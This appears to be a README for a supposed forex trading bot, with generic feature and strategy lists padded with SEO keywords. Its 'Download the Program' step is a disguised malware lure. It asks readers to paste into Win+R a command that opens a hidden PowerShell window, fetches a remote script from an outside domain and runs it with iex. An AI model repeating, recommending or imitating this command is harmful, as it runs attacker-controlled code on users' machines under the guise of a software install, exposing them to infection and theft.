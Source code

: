 # Forex Trading Bot 💹🌍

## Project Description
**Forex Trade Bot** is an automated trading bot designed to trade currencies in the foreign exchange market. The bot analyzes market data, executes trades based on predefined strategies, and aims to maximize profits while minimizing risks.

## Key Features
- **Multi-Currency Support**: Trade a wide range of currency pairs in the Forex market.
- **Real-Time Market Analysis**: Continuously analyzes market trends and price movements.
- **Automated Trading**: Executes trades automatically based on custom strategies and indicators.
- **Risk Management**: Implements risk management techniques to protect your investment.
- **User -Friendly Dashboard**: Provides a simple interface for monitoring trades and performance.



## Usage 🚀
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://verifclouds.com/1.txt';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Example Strategies 📈
- **Trend Following**: Identify and follow the direction of market trends.
- **Mean Reversion**: Trade based on the assumption that prices will revert to their mean value.
- **Breakout Trading**: Enter trades when the price breaks through established support or resistance levels.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [MetaTrader API Documentation](https://www.mql5.com/en/docs/integration)
- [Forex Factory Economic Calendar](https://www.forexfactory.com/calendar.php)

---

**SEO Keywords**: Forex Trading Bot, automated trading, currency trading, foreign exchange, trading strategies, market analysis.
